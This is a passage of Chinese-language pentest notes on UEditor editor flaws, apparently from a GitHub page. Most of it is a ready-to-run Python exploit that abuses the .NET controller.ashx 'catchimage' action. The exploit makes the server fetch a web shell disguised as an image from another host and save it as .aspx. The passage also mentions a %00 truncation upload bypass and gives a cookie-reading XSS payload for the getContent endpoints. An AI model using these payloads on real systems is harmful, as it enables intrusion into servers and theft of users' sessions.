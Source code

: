 ![image](https://user-images.githubusercontent.com/84888757/161834354-f54bc939-4532-433a-a496-f3f1f8680af3.png)

3、python exp
来自[DawnFlam](https://github.com/DawnFlame/POChouse/tree/main/%5B%2B%5D%20%E7%BC%96%E8%BE%91%E5%99%A8%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E#net%E7%89%88-ueditor%E7%BC%96%E8%BE%91%E5%99%A8%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0)

```
import requests
import re

def upload():
    url = 'http://www.test.com/ueditor/controller.ashx' # www.test.com/xxx/xxx/controller.ashx
    photo_shell = 'http://www.test.com/1.gif' #photo_shell
    headers = {
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0',
        'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Upgrade-Insecure-Requests': '1'
        }
    req = requests.post(url=url+'?action=catchimage',headers=headers,data='source[]='+photo_shell+'?.aspx',verify=False)
    
    if re.search('SUCCESS',req.text):
        print('[+] 上传成功！ 请查看响应包内容！')
    else:
        print('[-] 上传失败！ 请查看响应包内容！')
    print(req.text)

if __name__ == '__main__':
    upload()
```

### 4.2.3 ueditor.1.3.6 .net1版本
使用%00截断的方式上传绕过

![image](https://user-images.githubusercontent.com/84888757/161834699-b4153aa1-69b9-44cc-8f4d-71d30e05f84c.png)
![image](https://user-images.githubusercontent.com/84888757/161834857-66a36738-1b8d-4b0c-94c9-0e7ae4caff28.png)
![image](https://user-images.githubusercontent.com/84888757/161834965-23df3566-4585-41ec-96e0-96d175ca8110.png)

# 0x05 XSS
该洞的触发点：
```
/php/getContent.php
/asp/getContent.asp
/jsp/getContent.jsp
/net/getContent.ashx

# poc
# myEditor中的’ E ’必须大写，小写无效。
post 数据包
myEditor=<script>alert(document.cookie)</script>
```
